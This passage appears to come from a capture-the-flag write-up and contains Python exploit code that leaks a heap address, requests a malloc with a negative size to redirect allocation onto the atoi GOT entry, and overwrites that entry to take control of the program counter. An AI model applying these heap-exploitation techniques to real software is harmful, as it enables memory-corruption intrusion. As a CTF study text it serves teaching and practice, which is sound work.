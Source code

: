 ```python
def auth(s):
    s.read_until("please input your 8-bit key:")
    s.write("A"*8)
    leak = s.read_until("\n")
    leak = leak.replace(" is wrong, try again!\n", '')
    leak = leak.replace('A'*8, '')
    if len(leak)<4: leak += "\x00"*(4-len(leak))
    leak = i_u(leak)
    s.read_until("please input your 8-bit key:")
    s.write("security")
    return leak
```


#### Controlling $pc ####

From the heap memory leak, we know the address of the `secret` chunk, which
means that the `name` chunk headers will be located exactly 8 bytes after.

```bash
     |  secret  |  name     |   | key      |
```

So we must set the length for the `name` chunk dynamically by using the
`update_key()` function:

```python
ATOI_GOT   = 0x00010F80 - 2*8
[...]
def sign_name(s, addr):
    select_menu_entry(s, 3)
    new_sz = -addr + ATOI_GOT
    name = "JUNK"*8
    ok("malloc(name) with size=%#x" % new_sz)
    s.read_until("please input your name length:")
    s.write("%d\n" % new_sz)
    s.read_until("enter your name:")
    s.write(name)
    return

secret_addr    = leak - 8
name_addr      = secret_addr + 8 + 8

sign_name(s, name_addr)
```

The heap is now set dynamically with the correct offset. The next call to
`malloc()` will overwrite the GOT entry of `atoi@got` with our data!

```python
def update_key(s):
    ok("malloc(key)")
    select_menu_entry(s, 1)
    key = ""
    key+= "\xbb"*4              # atoi@got will be overwritten with this value
    key+= "B"*4 + "C"*4 + "D"*4
    s.read_until("enter the new 16-bit key:")
    s.write(key)
    s.read_until("the key is updated!")
    return

def leave(s):
    ok("Leaving - and triggering atoi@got")
    select_menu_entry(s, 4)
    return
```
